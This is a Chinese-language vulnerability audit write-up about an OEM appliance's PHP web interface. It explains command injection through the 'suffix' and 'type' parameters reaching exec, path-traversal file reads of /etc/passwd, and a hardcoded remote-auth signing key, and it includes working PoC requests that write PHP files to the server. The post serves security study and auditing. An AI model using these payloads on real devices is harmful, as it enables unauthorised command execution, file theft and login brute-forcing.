


# 某 oem 产品审计学习

比较老的洞了，最近看到有人交了 rce, 正好学习下，应该是多家 oem 的产品

- - -

## [](#%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C1)命令执行 1

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>/webui/?g=aaa_portal_auth_local_submit&suffix=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111112.php&bkg_flag=0<br>``` |

全局搜索 `aaa_portal_auth_local_submit` 看下是哪里的问题

定位到 `webui/modules/aaa/portal_auth.mds`

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>70<br>71<br>72<br>73<br>74<br>``` | ```php<br>//----------------------------------------------------------------------------------本地认证-----------------------------------<br>if($get_url_param == "aaa_portal_auth_local_submit"){<br>	<br>	$suffix = $_GET['suffix'];<br>	$config = file_get_contents($portal_catalog."/config.txt");<br>	$config_arr = json_decode($config,true);<br><br>	$tab_name = $_GET['tab_name'];<br>	$welcome_word = $_GET['welcome_word'];<br>	$btn_color = $_GET['btn_color'];<br><br>	//基本配置<br>	$baseFlag = $_GET['baseFlag'];<br>	if(gettype($baseFlag) != 'undefined' && $baseFlag == 1){<br><br>		$config_arr = save_config('local',$config_arr,$tab_name,$welcome_word,$btn_color,'','');<br><br>		$new_config = json_encode($config_arr);<br>		file_put_contents($portal_catalog."/config.txt",$new_config);<br>		//file_put_contents("/mnt/copyconfig.txt", $new_config);//添加一个备份文件，然后将备份文件copy到系统内的文件即可<br>		backupAuthFile('local');<br>		echo '{"success":"local_base"}';<br>		return;<br>		<br>	}<br>	//logo<br>	if($_GET['bkg_flag'] == 0){<br>		<br>		if($_FILES['local_logo_file']['error'] == UPLOAD_ERR_OK){<br><br>			$tmp_name = $portal_catalog.'/local/images/localLogo_tmp'.$suffix;<br>			$final_name = $portal_catalog.'/local/images/localLogo'.$suffix;<br>			$type = 'local_logo_file';<br><br>			if(!checkFileSize($type,$tmp_name,$final_name,$uploadFileSize)){<br>				return;<br>			}<br>		}<br><br>		$config_arr = save_config('local',$config_arr,$tab_name,$welcome_word,$btn_color,'','');<br><br>		$config_arr[local][local_logo_pic] = $_FILES['local_logo_file']['name'];<br><br>		$new_config = json_encode($config_arr);<br>		file_put_contents($portal_catalog."/config.txt",$new_config);<br>		//file_put_contents("/mnt/copyconfig.txt", $new_config);//添加一个备份文件，然后将备份文件copy到系统内的文件即可<br>		backupAuthFile('local');<br>		echo '{"success":"local_logo"}';<br>		return;<br>		<br>	}else{ //bkg<br><br>		//如果tab_name不为空,表示此时需同步修改tab_name等内容<br>		if($tab_name){<br>			$config_arr = save_config('local',$config_arr,$tab_name,$welcome_word,$btn_color,'','');<br>		}<br>		if($_FILES['local_bkg_file']['error'] == UPLOAD_ERR_OK){<br>			$tmp_name = $portal_catalog.'/local/images/localBkg_tmp'.$suffix;<br>			$final_name = $portal_catalog.'/local/images/localBkg'.$suffix;<br>			$type = 'local_bkg_file';<br>			<br>		if(!checkFileSize($type,$tmp_name,$final_name,$uploadFileSize)){<br>				return;<br>			}<br>		}<br>		$config_arr[local][local_bkg_pic] = $_FILES['local_bkg_file']['name'];<br>		$new_config = json_encode($config_arr);<br>		file_put_contents($portal_catalog."/config.txt",$new_config);<br>		//file_put_contents("/mnt/copyconfig.txt", $new_config);//添加一个备份文件，然后将备份文件copy到系统内的文件即可<br>		backupAuthFile('local');<br>		echo '{"success":"local_bkg"}';<br>		return;<br>	}<br>}<br>``` |

看下 suffix 参数被传入到了哪里，为什么会触发命令执行

suffix 先后被赋值给了 `tmp_name`,`final_name`, 然后这 2 个参数被传给了 `checkFileSize` 函数

看下 `checkFileSize` 函数

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```php<br>function checkFileSize($type,$tmp_name,$final_name,$uploadFileSize){<br>	move_uploaded_file($_FILES[$type]['tmp_name'],$tmp_name);<br><br>	if(filesize($tmp_name) - $uploadFileSize > 0){<br>		exec('rm '.$tmp_name);<br>		echo '{"warning":"图片大小超过限制","type":"'.$type.'"}';<br>		return false;<br>	}else{<br>		exec('mv '.$tmp_name.' '.$final_name);<br>		return true;<br>	}<br>}<br>``` |

很好，看来是危险函数 exec 执行了我们的命令

这里 poc 的 suffix 值是

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```markdown<br>换行符<br>echo 'test2' >> /tmp/success2<br><br>%0Aecho%20%27test2%27%20%3E%3E%20%2Ftmp%2Fsuccess2<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled%201.png)

我试了下，用这个也行

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```fallback<br>/tmp/ttt \| echo 'test3' >> /tmp/success3<br><br>%2Ftmp%2Fttt%20%7C%7C%20echo%20%27test3%27%20%3E%3E%20%2Ftmp%2Fsuccess3<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled%202.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/oem-case/Untitled%203.png)

不过可以看到是有换行符的效果更好

- - -

## [](#%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C2)命令执行 2

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>/webui/?g=aaa_portal_auth_config_reset&type=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111111.php%0a<br>``` |

全局搜索 `aaa_portal_auth_local_submit`

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>``` | ```php<br>if($get_url_param == "aaa_portal_auth_config_reset"){<br>	$type = $_GET['type'];<br>	$logo_type = $type.'_logo_pic';<br>	$bkg_type = $type.'_bkg_pic';<br><br>	$config = file_get_contents($portal_catalog."/config.txt");<br>	$config_arr = json_decode($config,true);<br><br>	$config_dft = file_get_contents($portal_catalog."/default_config.txt");<br>	$config_dft_arr = json_decode($config_dft,true);<br>	<br>	if($type == 'adv'){<br>		$config_arr[diff] = $config_dft_arr[diff];<br>	}<br>	$config_arr[$type] = $config_dft_arr[$type];<br><br>	//删除图片<br>	exec('rm '.$portal_catalog.'/'.$type.'/images/'.$type.'*');<br><br>	$new_config = json_encode($config_arr);<br>	file_put_contents($portal_catalog."/config.txt",$new_config);<br>	backupAuthFile($type);<br>	echo '{"reset":"'.$type.'"}';<br>}<br>``` |

明晃晃的 exec , 有点过分的

- - -

## [](#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)任意文件读取

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```yaml<br>requests:<br>  - method: GET<br>    path:<br>      - "{{BaseURL}}/webui/?g=sys_dia_data_down&file_name=../etc/passwd"<br>      - "{{BaseURL}}/webui/?g=sys_dia_data_check&file_name=../../../../../../../../etc/passwd"<br>      - "{{BaseURL}}/webui/?g=sys_capture_file_download&name=../../../../../../../../etc/passwd"<br>      - "{{BaseURL}}/webui/?g=sys_corefile_sysinfo_download&name=../../../../../../../../etc/passwd"<br>``` |

先全局搜下 `sys_dia_data_down`

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```php<br>if( $get_url_param == 'sys_dia_data_down'){<br>	// if($_POST['file_name']!=null) $param['file_name'] = formatpost($_POST['file_name']);<br><br>	$fname = "/mnt/".$_GET['file_name'];	<br>	$data = file_get_contents($fname);<br>	Header("Pragma: public");<br>	Header("Cache-Control: private");<br>	Header("Content-type: text/plain");<br>	Header("Accept-Ranges: bytes");<br>	Header("Content-Length: " . strlen($data));<br>	Header("Content-Disposition: attachment; filename=".$_GET['file_name'] );<br>	ob_clean();<br>	echo $data;<br>	exit();<br><br>}<br>``` |

可以看到 file\_name 参数没有被过滤直接被 file\_get\_contents 函数所读取了，导致的任意文件读取

不过 file\_get\_contents 函数可以造成 ssrf, 这里由于前面拼接了 /mnt/ , 所以不好进行 ssrf

- - -

## [](#%E7%BB%95%E8%BF%87%E9%AA%8C%E8%AF%81%E7%A0%81%E7%88%86%E7%A0%B4)绕过验证码爆破

先看 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```php<br>/remote_auth.php?user=admin&pwd=admin&sign=ba84d9dd91eb304aca57f0a8f052623e<br>``` |

这个 sign 从哪来，其实就硬编码在 `/usr/local/webui/remote_auth.php` 中

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```php<br>if($_GET['user']!=null) $usr = formatget($_GET['user']);<br>if($_GET['pwd']!=null) $pwd = formatget($_GET['pwd']);<br>if($_GET['sign']!=null) $sign = formatget($_GET['sign']);<br>$key= 'saplingos!@#$%^&*';//这个key你们协商后保存一致即可<br>//ba84d9dd91eb304aca57f0a8f052623e<br>if(empty($usr)){<br>	die('user_null');<br>}<br>else if(empty($pwd)){<br>	die('pwd_null');<br>}<br>else if (!$sign){<br>	die('sign_null');<br>}<br>else if ($sign != md5($key)){<br>	die('sign_error');<br>}<br>else{<br>	if (isset($usr, $pwd)) {<br>		LoginHandler::login($usr, $pwd, $num,'',$remote_auth = true);<br>	}<br>	$fail_msg = '';<br>	if (LoginHandler::isLoginFail()) {<br>		$fail_msg = $_SESSION[ERROR_STR];<br>		if (strlen($fail_msg) <= 0) {<br>			$fail_msg = LocalUtil::getCommonResource('login_failed');<br>		}<br>		die($fail_msg);<br>	}<br>}<br>``` |

我们可以通过任意文件读取漏洞读取 key, 然后进行爆破
